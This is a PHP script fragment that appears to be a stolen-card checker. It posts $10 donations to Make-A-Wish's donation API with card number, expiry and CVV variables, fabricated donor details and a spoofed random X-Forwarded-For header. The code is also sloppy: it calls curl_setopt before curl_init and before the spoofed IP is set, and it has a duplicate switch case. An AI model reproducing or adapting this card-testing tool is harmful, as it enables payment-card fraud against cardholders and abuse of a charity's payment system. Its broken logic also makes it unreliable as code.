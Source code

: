  /*
     switch ($ano) {
         case '17':
         $ano = '2017';
         break;
         case '18':
         $ano = '2018';
         break;
         case '19':
         $ano = '2019';
         break;
         case '20':
         $ano = '2020';
         break;
         case '21':
         $ano = '2021';
         break;
         case '22':
         $ano = '2022';
         break;
         case '23':
         $ano = '2023';
         break;
         case '24':
         $ano = '2024';
         break;
         case '24':
         $ano = '2025';
         break;
     }
     */


curl_setopt($ch, CURLOPT_HTTPHEADER, array(

"X-Forwarded-For: ".$randIP
    ));
$curl = curl_init();
$randIP = "".mt_rand(0,255).".".mt_rand(0,255).".".mt_rand(0,255).".".mt_rand(0,255);




$link = 'https://secure2.wish.org/site/CRDonationAPI'; 
$post = 'luminateExtend=1.7.1&new_donation_form=true&other_amount=10&s_ecard_to_first=&s_ecard_to_last=&s_ecard_full_name=&s_ecard_from=&s_productURL1=&chapter_id=100-000&s_donorIntentID=100-000&s_donorIntentName=Make-A-Wish%C2%AE%20America&billing.name.first=VANEI&billing.name.last=BOGES&billing.address.street1=Rua Casa do Ator&billing.address.street2=casa&billing.address.zip=10001&billing.address.city=Nova Iorque&billing.address.state=NY&billing.address.country=United States&s_chid=100-000&method=donate&remember_me=false&summary=data&validate=true&form_id=1542&foreign_key1=MNOO21&foreign_key2=UR-100-01&foreign_key3=21ON-NSP-WNAT&foreign_key4=OT-NT-WNAT&foreign_key5=DEV-Multimedia+Online&s_src=&source=&s_subsrc=&sub_source=&currentURL=https%3A%2F%2Fsecure2.wish.org%2Fsite%2FSPageServer%3Fpagename%3Ddonate_today%26amp%3Bchid%3D100-000&securePath=https%3A%2F%2Fsecure2.wish.org%2Fsite%2F&level_id=2031&ecard.id=&honoree_full_name=&honoree_first_name=&honoree_last_name=&ecard.recipients=&from_name=&donor_intent_type=national&donor.name.first=VANEI&donor.name.last=BOGES&donor.address.street1=Rua+Casa+do+Ator&donor.address.street2=casa&donor.address.zip=10001&donor.address.city=Nova+Iorque&donor.address.state=NY&donor.email=netdou3%40gmail.com&donor.email_opt_in=true&double_the_donation_company_id=&doubledonation_status=not_found&doublethedonation_status=not_found&doublethedonation_entered_text=vb&doubledonation_company_id=&doublethedonation_company_id=&doubledonation_company_name=&doublethedonation_company_name=&doublethedonation_company_name_input=vb&donor.address.country=United+States&payment_type=credit&card_number='.$numero.'&card_exp_date_month='.$mes.'&card_exp_date_year='.$ano.'&card_cvv='.$cvv.'&ach_account_type=CHECKING&ach_routing=&ach_account=&ach_account_verify=&api_key=mu3fefod&response_format=json&suppress_response_codes=true&v=1.0&ts=1630271053399';
$c = _curl($link,$post);
